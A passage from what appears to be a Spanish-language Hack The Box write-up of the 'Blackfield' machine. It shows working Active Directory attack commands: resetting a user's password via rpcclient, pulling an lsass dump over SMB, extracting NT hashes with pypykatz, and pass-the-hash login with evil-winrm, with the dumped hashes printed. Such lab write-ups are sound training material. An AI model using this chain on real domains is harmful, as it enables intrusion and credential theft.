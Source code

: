 ![]({{site.baseurl}}/assets/img/Blackfield-htb/blackfield_bh1.jpg)

#### Abusando de ForceChangePassword

A través, del servicio *RPC*, se puede modificar la contraseña del usuario *audit2020*

```null
rpcclient -U blackfield/support 10.10.10.192
rpcclient $> setuserinfo audit2020 23 H@CKTHEB0X#
```

Ahora, al tener unas nuevas credenciales válidas, puedo enumerar de nuevo los recuersos compartidos a nivel de red por *SMB*

Se puede observar un backup del lsass, así que procedo a descargarlo

```null
smbclient.py audit2020:'H@CKTHEB0X#'@10.10.10.192
use forensic
cd memory_analysis
ls
get lsass.zip
exit
```

A través de pypykatz, se puede tratar de desencriptar el *lsass*

```null
pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

Las credenciales del Usuario Administrador no son válidas, pero las de svc_backup sí, por lo que me puedo conectar a la máquina por win-rm

```null
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```
